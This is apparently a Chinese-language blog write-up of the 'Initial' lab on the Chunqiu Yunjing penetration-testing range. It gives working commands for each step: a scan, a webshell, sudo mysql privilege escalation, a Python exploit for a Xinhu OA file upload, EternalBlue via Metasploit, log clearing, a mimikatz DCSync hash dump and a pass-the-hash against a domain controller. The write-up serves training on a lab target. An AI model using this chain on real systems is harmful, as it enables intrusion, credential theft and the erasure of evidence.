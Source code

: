 

+++
date = '2025-03-12T22:02:55+08:00'
title = '春秋云镜-Initial-Writeup'
categories = ["Writeup"]
tags = ["writeup", "渗透", "春秋云镜"]

+++





> 参考文章
>
> https://9anux.org/2024/08/01/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83Initial%E8%AF%A6%E8%A7%A3/

菜鸡第一个通关的靶场Orz



### FLAG1

![image-20250306184027336](../assets/image-20250306184027336.png)

fscan扫一下

```
./fscan.exe -h 39.99.139.119
```

![image-20250306184106697](../assets/image-20250306184106697.png)

直接用thinkphpgui写马连蚁剑

![image-20250306185409381](../assets/image-20250306185409381.png)

先用vshell上线

读flag需要提权

[peass-ng/PEASS-ng: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors)](https://github.com/peass-ng/PEASS-ng)

传个linpeas扫一下

```
./linpeas_linux_amd64 > output.txt
```

![image-20250306194842802](../assets/image-20250306194842802.png)

在历史文件中找到疑似读flag的命令

其实这就是一个简单的sudo提权

[渗透测试：Linux提权精讲（三）之sudo方法第三期_nmap sudo 提权-CSDN博客](https://blog.csdn.net/Bossfrank/article/details/132035121)

![image-20250307122848818](../assets/image-20250307122848818.png)

mysql 是配置了 sudo 免密使用的，可以使用 mysql 提权，通过mysql执行命令来读flag

payload:

```
sudo mysql -e '\! /bin/sh'
cat /root/flag/flag*
```

![image-20250306195324340](../assets/image-20250306195324340.png)

```
flag01: flag{60b53231-
```





接下来搭代理

![image-20250306195729122](../assets/image-20250306195729122.png)

查内网ip

![image-20250306201310152](../assets/image-20250306201310152.png)



接着传一个fscan扫一下内网

```
fs -h 172.22.1.0/24 -nobr -nopoc -hn 172.22.1.15
```

![image-20250306211420165](../assets/image-20250306211420165.png)

收集到的信息

```
172.22.1.2:DC域控
172.22.1.21:Windows的机器并且存在MS17-010 漏洞
172.22.1.18:信呼OA办公系统
```



### FLAG2

先看信呼

![image-20250306201640184](../assets/image-20250306201640184.png)

弱口令成功登入admin/admin123

信呼协同办公系统v2.2.8存在文件上传漏洞

[Awesome-POC/OA产品漏洞/信呼OA qcloudCosAction.php 任意文件上传漏洞.md at master · Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC/blob/master/OA产品漏洞/信呼OA qcloudCosAction.php 任意文件上传漏洞.md)

```php
import requests

session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
# url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=<ID>'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''    
}

r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r')})
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
print(filepath)
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

写马之后直接读flag就行

![image-20250306205702520](../assets/image-20250306205702520.png)

```
flag02: 2ce3-4813-87d4-
```







### FLAG3

永恒之蓝可以用msf打

现在kali上用proxychains4简单配个代理

```
proxychains4 msfconsole
search ms17-010
```

有四个不同的模块

![image-20250306221317959](../assets/image-20250306221317959.png)

这里使用第一个模块，因为利用范围比较广

```
use exploit/windows/smb/ms17_010_eternalblue  # 选择使用的模块
set payload windows/x64/meterpreter/bind_tcp_uuid  # 设置payload，可以通过show payloads查看
set RHOSTS 172.22.1.21  # 设置靶机的ip
exploit  # 发起攻击
```

![image-20250306222652987](../assets/image-20250306222652987.png)

成功了

```
meterpreter > screenshot # 捕获屏幕
meterpreter > upload hello.txt c:// #上传文件
meterpreter > download d://1.txt # 下载文件
meterpreter > shell # 获取cmd
meterpreter > clearev # 清除日志
```

![image-20250306222939898](../assets/image-20250306222939898.png)



```
load kiwi  # 调用mimikatz模块
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit  # 导出域内所有用户的信息(包括哈希值)
```

![image-20250306223200316](../assets/image-20250306223200316.png)

拿到`Administrator` 用户的 `hash`，接着使用 `crackmapexec` 来进行哈希传递攻击，来实现 `DC域控` 上的任意命令执行

```
proxychains4 crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

![image-20250306223612158](../assets/image-20250306223612158.png)

拿到最后一个flag